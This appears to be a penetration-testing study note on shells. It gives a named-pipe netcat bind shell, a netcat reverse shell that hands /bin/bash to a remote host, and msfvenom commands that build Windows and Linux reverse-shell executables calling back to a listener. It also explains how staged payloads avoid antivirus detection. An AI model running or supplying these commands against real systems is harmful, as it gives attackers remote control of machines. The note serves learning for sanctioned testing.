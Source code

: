 ```
// The command first creates a named pipe at /tmp/f. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.


mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

nc <LOCAL-IP> <PORT> -e /bin/bash
```

#### Msfvenom
-  msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`)

The standard syntax for msfvenom is;
```
msfvenom -p PAYLOAD OPTIONS
```

To make a windows x64 reverse shell in an exe format;
```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>

-f format
- o file - output

msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443
```

##### Staged Payloads
- They are sent into 2 parts.
- The first part is the stager; which is directly executed on the server. It connects back to a waiting listenerbut doesnt actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions.
- Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated
- They require a special listener; usually metaspoilt multi/handler.

##### Stageless Payload
- They are the one's we use commonly.
- They are use and catch.
- However, they are bulkier and easy to be noticed.

##### Meterpreter
- Meterpreter shells are Metasploit's own brand of fully-featured shell.
- They are super stable, best for windows machine.
- They also have a lot of inbuilt functionality of their own, such as file uploads and downloads.
- The downside to meterpreter shells is that they _must_ be caught in Metasploit.
